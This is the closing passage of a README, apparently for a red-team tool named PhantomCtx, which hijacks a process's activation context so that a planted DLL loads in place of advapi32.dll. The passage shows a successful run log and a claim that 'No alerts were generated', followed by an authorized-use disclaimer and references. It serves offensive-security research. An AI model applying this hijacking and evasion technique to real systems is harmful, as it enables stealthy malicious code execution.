|       Flags      : PATH_INCLUDES_BASE_NAME
|       Segments   : 1  PathLen=150 bytes
|       Path       : C:\Users\rexmax\AppData\Roaming\Adobe\Flash Player\NativeCache\advapi32.dll
|
+--[ END ]

[SUCCESS] Suspended process created...
[INFO] Original PEB.ActivationContextData = 0000021D10BA0000
[SUCCESS] Patched blob written to section (8550 bytes)
[SUCCESS] Original Activation Context region unmapped @ 0000021D10BA0000
[SUCCESS] Patched Activation Context mapped at 0000021D10BA0000 (same address)
[SUCCESS] Target process resumed.
```

In this case, the payload DLL executes `calc.exe`. No alerts were generated.





# Disclaimer

This tool was developed for **personal educational purposes** and is intended exclusively 
for security professionals and red team operators working in **authorized environments**.

The use of PhantomCtx against systems without explicit permission is **illegal** and 
strictly prohibited. The author takes no responsibility for any misuse or damage caused 
by this tool.

# References
- [Activation Context Hijack by Kurosh Dabbagh - Navaja Conference](https://www.youtube.com/watch?v=qu4fXWKjabY)
- [Activation Context Hijack ‘Eclipse’ Loader](https://github.com/Kudaes/Eclipse)
- [NtDoc](https://ntdoc.m417z.com/)
- [ReactOS Source Code](https://github.com/reactos/reactos)
- [Windows Internals Book](https://learn.microsoft.com/en-us/sysinternals/resources/windows-internals)
